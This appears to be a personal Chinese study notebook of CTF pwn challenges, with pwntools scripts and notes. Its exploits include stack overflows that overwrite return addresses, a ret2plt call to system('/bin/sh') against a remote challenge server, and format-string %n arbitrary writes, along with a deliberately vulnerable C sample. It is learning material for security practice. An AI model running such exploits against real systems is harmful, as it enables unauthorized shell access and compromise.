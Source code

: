 * 工具安装与学习
  #+BEGIN_SRC shell
    git clone https://github.com/pwndbg/pwndbg
    cd pwndbg
    ./setup.sh
  #+END_SRC

  #+BEGIN_SRC shell
    git clone https://github.com/pwndbg/pwndbg
    cd pwndbg
    ./setup.sh
  #+END_SRC

* Tips for using gdb  
* 基础篇

** level1
   :PROPERTIES:
   :header-args: :dir ./bin
   :END:

   通过下面的代码判定返回地址偏移
   #+BEGIN_SRC python :session level1
	 from pwn import *
	 
	 p = process('./pwn_level1')
	 gdb.attach(p)
	 p.recvuntil('try to stackoverflow!!')
	 p.send(cyclic(0x100))
	 p.interactive()
   #+END_SRC 

   #+RESULTS:

   通过cyclic_find得到偏移地址13
   #+BEGIN_SRC python :session level1 :results output 
	 from pwn import *

	 p = process('./pwn_level1')
	 gdb.attach(p)
	 p.recvuntil('try to stackoverflow!!')
	 p.send(cyclic(0x100))
	 print(cyclic_find('aaae'))
   #+END_SRC

   #+RESULTS:
   : Traceback (most recent call last):
   :   File "<stdin>", line 1, in <module>
   :   File "/tmp/babel-AudvWm/python-e2ZrMk", line 1, in <module>
   :     from pwn import *
   : ModuleNotFoundError: No module named 'pwn'
   
   直接exploit到目标函数
   #+BEGIN_SRC python :session level1
	 from pwn import *

	 p=process('./pwn_level1')
	 gdb.attach(p)

	 p.recvuntil('try to stackoverflow!!')

	 p.send(('a'*13).encode('ascii')+p32(0x804849a)) 

	 p.interactive()

   #+END_SRC

   #+RESULTS:
  
** get_shell   
   
   没做过pwn, 所以直接看题解, 所以是要用nc连对应的端口, 然后才开始, 
   所以一般pwn的思路就是先在附件上研究, 然后在对应端口exploit拿到shell吧

** hello_pwn
   
   用IDA打开, 看了一下逻辑, 大概就是在bss中通过数组溢出覆盖另一个局部变量

   注意覆盖的类型是dd, 由于大小端的原因, 如果要覆盖成"0x6E756161", 则需要填充字节"aaun"

   #+BEGIN_SRC python :results output
	 from pwn import *
	 conn = remote('111.200.241.244', 65336)
	 conn.send(('a'*4 + 'aaun').encode('ascii'))
	 conn.recvuntil("for bof\n")
	 print(conn.recvline())
   #+END_SRC

   #+RESULTS:
   : [x] Opening connection to 111.200.241.244 on port 65336
   : [x] Opening connection to 111.200.241.244 on port 65336: Trying 111.200.241.244
   : [+] Opening connection to 111.200.241.244 on port 65336: Done
   : b'cyberpeace{6f3c8100c42eb5959821d21005899c2f}\n'
   : [*] Closed connection to 111.200.241.244 port 65336
   
** level0   
   用IDA看一下逻辑, vunerable_function里有溢出点, 并且程序中有system("/bin/sh"), 所以覆盖返回地址即可
   
   先看一下返回值偏移
   
   #+BEGIN_SRC python :session 
	 from pwn import *

	 p = process("/home/dell/Downloads/291721f42a044f50a2aead748d539df0")
	 p.send(cyclic(0x500))
	 cyclic_find('jaabkaab')
   #+END_SRC

   #+RESULTS:
   : 136
   
   然后溢出即可
   #+BEGIN_SRC python :tangle level0.py
	 from pwn import *
	 #p = process("/home/dell/Downloads/291721f42a044f50a2aead748d539df0")
	 p = remote('111.200.241.244', 54089)
	 print(p.recvline())
	 p.send(('a'*136).encode('ascii') + b'\x96\x05\x40') # or p64(0x400596)	 
	 p.interactive()
   #+END_SRC

   #+RESULTS:
   
** level2   
   
   发现溢出点, 老规矩, 找偏移
   #+BEGIN_SRC python :session
	 from pwn import *
	 p = process('/home/dell/Downloads/1ab77c073b4f4524b73e086d063f884e')
	 cyclic(0x500)
	 cyclic_find('kaab')
   #+END_SRC

   #+RESULTS:
   : 140

   没有直接的system("bin/sh")调用, 但是有system函数导入就够了, 将返回地址覆盖为system地址, 然后伪造一个system("/bin/sh")的调用栈帧即可
   
   在正常情况下, 我们是通过call指令来进行函数调用的, 在进入system函数前, call指令其实已经push了eip, 即正常情况下system的调用栈帧如下:
   | ret: 即调用system的地址+1, 这个地址可以任意, 因为我们并没有通过call调用 <- esp |
   | "/bin/sh": 调用的参数                                                          |

   因为刚进入system函数, 栈顶还没抬高, 所以esp指向的是压入的返回地址(因为不是call调用的, 所以这个值不重要), 而ret后面就是调用参数了

   所以覆盖缓冲区如下:
   | ...        |
   | system@plt |
   | ret: any   |
   | "/bin/sh"  |

   值得注意的是, 通过查看system的实现, 可以发现system并没有用到ebp来访问参数和局部变量(对于一般函数是需要ebp的), 所以我们可以任意覆盖
   ebp的值, 虽然后面会发生堆栈不平衡的问题

   #+BEGIN_SRC python :tangle level2.py
	 from pwn import *
	 p = remote('111.200.241.244', 49488)
	 #p = process('/home/dell/Downloads/1ab77c073b4f4524b73e086d063f884e')
	 #gdb.attach(p)
	 e = ELF('/home/dell/Downloads/1ab77c073b4f4524b73e086d063f884e')
	 binaddr = 0x804A024
	 p.sendlineafter(':', flat(['a'*0x88 + 'b'*4, e.plt['system'], 0, binaddr]))
	 p.interactive()
   #+END_SRC

   #+RESULTS:
   : b'Input:'
   
         
** string   

   这一部分知识不太熟, 先学习一下
	
   格式化占位符的语法:
	
   %[parameter][flags][field width][.precision][length]type

   flags, filed width, precision以及length都是控制输出格式的, 并不重要

   重点是parameter, 这个参数可以控制输出第几个参数

   例如: %100d 就是指输出第100个整数, 但由于printf本身并不对参数进行检查, 所以我们可以利用parameter实现任意内存读取
   
   #+BEGIN_SRC C++
	 #include <stdio.h>

	 int main() {
	   int s = 0;
	   printf ("the value of s is %n", &s);
	   printf ("%d\n", s);
	 }
   #+END_SRC

   #+RESULTS:
   : the value of s is 18

   %n: 将已输出的字符个数赋值给s, 我也不知道为什么有这么奇怪的东西

   但利用%n, 我们其实可以实现任意内存写入

   如下面的例子:

   #+BEGIN_SRC C++
	 #include <stdio.h>
	 #include <string.h>
 
	 int main(int argc,char **argv)
	 {
			 char str[100];
			 static int a = 0;
			 printf("%x\n",&a);
			 strcpy(str,argv[1]);
			 printf(str);
			 printf("\n%d\n",a);
	 }
   #+END_SRC

   在 printf 中，使用 *<a_number_of_chars>%<number>$n* 就可以将相应的第 *<number>* 个参数的位置写为 % 前输出的字符数量

   例如: %85c%7$n 就是将第7个参数的位置写成85

   再看题目, 大概明白是通过sub_400bb9中的漏洞实现对a1的修改, 然后就可以写入shellcode并执行了, 但具体流程还是不清楚, 看一下writeup吧
   
   
